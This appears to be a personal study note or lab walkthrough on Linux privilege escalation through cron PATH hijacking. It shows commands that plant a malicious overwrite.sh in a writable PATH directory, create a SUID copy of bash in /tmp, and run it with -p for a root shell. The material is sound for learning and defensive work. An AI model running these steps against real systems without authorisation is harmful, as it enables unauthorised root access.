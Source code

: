 Here we will see how to modify the path on which the cron executes the scripts in order to force the execution of a malicious one.


<mark style="background: #BBFABBA6;">As we can see using:</mark>
```bash
cat /etc/crontab
```
- ![[Pasted image 20250117155549.png]]
	- we have a path in which it searchs for the scripts and task to execute
	- it starts with `/home/user`
- ![[Pasted image 20250117155755.png]]
	- it searches for `overwrite.sh` into `/home/user`

So we can check on that path:
```bash
ls -la /home/user
```
- ![[Pasted image 20250117155703.png]]


Here we can see that the `overwrite.sh` doesn't exist.


# Creating malicious `overwrite.sh`

Now, if we have the permission to write into `/home/user` the game is done.

We just need to create a malicious file:
```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
```

Then we make it executable:
```bash
chmod +x /home/user/overwrite.sh
```


So now the system will do everything:
- it will create a binary `bash` in `/tmp` that is accessible by everyone
- ![[Pasted image 20250117160137.png]]


So we just need to run it:
```bash
/tmp/bash -p
```
- and the game is done
- ![[Pasted image 20250117160242.png]]


>NOTE: we need `-p` <mark style="background: #FF5582A6;">when we execute the bash file. It means privileged otherwise the shell is a user shell</mark>

<mark style="background: #BBFABBA6;">We gain the root shell!</mark>
